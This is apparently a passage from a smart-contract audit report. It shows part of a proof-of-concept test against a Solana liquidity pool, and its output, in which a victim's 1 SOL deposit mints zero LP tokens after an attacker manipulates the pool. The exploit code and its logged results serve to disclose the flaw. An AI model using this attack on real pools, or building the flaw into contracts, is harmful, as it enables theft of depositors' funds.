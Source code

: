 ```ts
    const victimDepositAmount = new anchor.BN(1 * LAMPORTS_PER_SOL);

    await program.methods
    .depositSol(victimDepositAmount)
    .accounts({
      pool: poolAccount,
      user: victimKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: victimLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
      associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
    })
    .preInstructions([
      createAssociatedTokenAccountInstruction(
        victimKeypair.publicKey,
        victimLpAccount,
        victimKeypair.publicKey,
        lpMintPubkey
      )
    ])
    .signers([victimKeypair])
    .rpc();

    const lpMintBalanceVictim = (await splTokenGetAccount(provider.connection, victimLpAccount)).amount;
    console.log(" Victim LP amount after deposit: ", lpMintBalanceVictim);
  });
});
```

After running we should see the following output:
```
Vault amount before deposit:  890880
 User amount before deposit:  1000000000000
Vault amount after deposit:  890881
 User amount after deposit:  999997960719
LP Mint balance:  890881n
- Withdraw sufficient amaount of SOL, so that 1 LP token is left
Vault amount after withdrawal:  890880
 User amount after withdrawal:  999997960720
 Attacker LP amount after withdrawal:  1n
 Victim LP amount after deposit:  0n
    ✔ Deposit and Withdraw SOL PoC 1 (2822ms)
```

The Victim deposited 1 SOL, but zero LP tokens were minted.

<a name="high-severity"></a>

### High Severity
